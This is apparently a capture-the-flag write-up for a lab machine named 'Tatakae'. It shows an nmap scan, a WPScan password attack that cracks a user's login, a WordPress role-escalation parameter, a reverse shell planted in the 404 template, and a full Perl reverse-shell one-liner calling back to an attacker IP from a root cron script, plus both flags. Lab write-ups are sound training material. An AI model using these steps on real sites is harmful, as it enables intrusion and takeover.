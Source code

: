 # Tatakae

## Enumeration

```bash
└─$ nmap -sV -A -p- -sC -T4 10.10.196.137 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 17:27 BST
Nmap scan report for 10.10.196.137
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
|_  256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Eren&#039;s internal rambling &#8211; Blog for eren&#039;s tho...
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 5.3.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploitation

### A wordpress website is running on it so I use WP-Scan
```bash
└─$ sudo wpscan --url http://10.10.196.137/ -P /usr/share/wordlists/rockyou.txt -U user.txt -t 3
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - armin / bestfriends 
```

### Add "&ure_other_roles=administrator" to the requeste "Update Account" on the wordpress with Burp Suite

### I have changed the plugin 404 with the pentest-monkey reverse shell

### I got a shell as eren

## User FLAG

```cat user.txt``` : EPI{HoMe_wA2_No7H1NG_8U7_A_pEN}

## Privilege Escalation

### Linpeas gave me nothing, but pspy64 yes

### A script run every 2 minutes as root and use the python os library, so I have modified it with a perl command and i got a shell as root
```python
execvp('perl -e 'use Socket;$i="10.8.37.214";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'')
```
## Root FLAG
```bash
cd /root
```
```cat `ls` ``` : EPI{1_h4V3_73H_PhR33D0M_70_C0n71nu3_M0v1N9_pH0rW4RD}

